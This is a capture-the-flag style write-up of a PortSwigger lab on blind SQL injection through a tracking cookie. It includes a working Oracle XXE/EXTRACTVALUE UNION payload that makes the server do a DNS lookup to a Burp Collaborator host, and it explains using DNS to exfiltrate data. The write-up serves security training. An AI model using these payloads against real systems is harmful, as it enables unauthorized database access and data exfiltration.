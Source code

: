# Blind SQL injection with out-of-band interaction

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band), you'll learn: Blind SQL injection with out-of-band interaction! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a DNS lookup to Burp Collaborator.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301120135.png)

**Cookies:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301120205.png)

When we go to `/`, it'll set a new cookie called `TrackingId`.

This looks like a tracking cookie for analytics.

The SQL query may looks like this:

```sql
SELECT TrackingId FROM tracking WHERE TrackingId = '<our_cookie_value>'
```

**That being said, we can try to perform SQL injection.**

**To do so, I'll try to trigger an SQL query error:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301120405.png)

However, it seems like we don't recieve any response when we modified the tracking cookie.

Maybe carries out the SQL query **asynchronously**?

The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to [Burp Suite Professional](https://portswigger.net/burp/pro) with no configuration required.

### Blind SQL injection with DNS lookup

**In the PortSwigger's [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), there's a DNS lookup payloads:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301120657.png)

Since we don't know which DBMS (Database Management System) is using, we need to try them all one by one.

**First, go to Burp Suite's Collaborator and click "Copy to clipboard":**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301120850.png)

**Then, we'll try Oracle XXE vulnerability to trigger a DNS lookup:**
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual
```

**Payload:**
```sql
1G73QrMQUaCdamOl' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

**The SQL query may become:**
```sql
SELECT TrackingId FROM tracking WHERE TrackingId = '1G73QrMQUaCdamOl' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://sqmxgqkqk0lopbi04l88x96v2m8dw4kt.oastify.com/"> %remote;]>'),'/l') FROM dual--'
```

Let's send the payload!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301124253.png)

> Note: The payload needs to be URL encoded.

**Burp Suite's Collaborator:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301124332.png)

We've recieved 4 DNS lookups! Which means the `TrackingId` cookie is vulnerable to out-of-band SQL injection!

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-16/images/Pasted%20image%2020230301124416.png)

# What we've learned:

1. Blind SQL injection with out-of-band interaction